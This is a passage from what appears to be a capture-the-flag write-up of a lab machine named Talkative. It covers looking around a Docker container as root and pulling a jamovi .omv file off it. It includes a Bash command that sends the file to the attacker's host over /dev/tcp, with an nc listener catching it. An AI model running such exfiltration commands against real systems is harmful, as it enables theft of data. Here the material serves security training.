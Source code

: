     root          84  0.0  0.3 115908  7136 pts/0    R+   17:27   0:00 ps auxww



There's also a `.dockerenv` file in the system root.

#### Home Dir

There are no home directories in `/home`, but there are some files in
`/root`:



    root@b06821bbda78:~# ls -la
    total 28
    drwx------ 1 root root 4096 Mar  7 23:19 .
    drwxr-xr-x 1 root root 4096 Mar  7 23:18 ..
    lrwxrwxrwx 1 root root    9 Mar  7 23:19 .bash_history -> /dev/null
    -rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
    drwxr-xr-x 3 root root 4096 Aug 22 17:10 .jamovi
    -rw-r--r-- 1 root root  148 Aug 17  2015 .profile
    drwxrwxrwx 2 root root 4096 Aug 15  2021 Documents
    -rw-r--r-- 1 root root 2192 Aug 15  2021 bolt-administration.omv



I'll exfil the `bolt-administration.omv` file using Bash and `nc`. With
`nc` listening from my host, from Talkative I'll run:



    root@b06821bbda78:~# cat bolt-administration.omv > /dev/tcp/10.10.14.6/443
    root@b06821bbda78:~# md5sum bolt-administration.omv 
    89a471297760280c51d7a48246f95628  bolt-administration.omv



At my host, the file is downloaded:



    oxdf@hacky$ nc -lnvp 443 > bolt-administration.omv
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.155 40266
    oxdf@hacky$ md5sum bolt-administration.omv 
    89a471297760280c51d7a48246f95628  bolt-administration.omv



The hashes match, so the file is good!

#### omv File

`.omv` files are documents from jamovi, but they are also just Zip
archives:



    oxdf@hacky$ file bolt-administration.omv 
    bolt-administration.omv: Zip archive data, at least v2.0 to extract



There's a standard file structure used by jamovi inside:
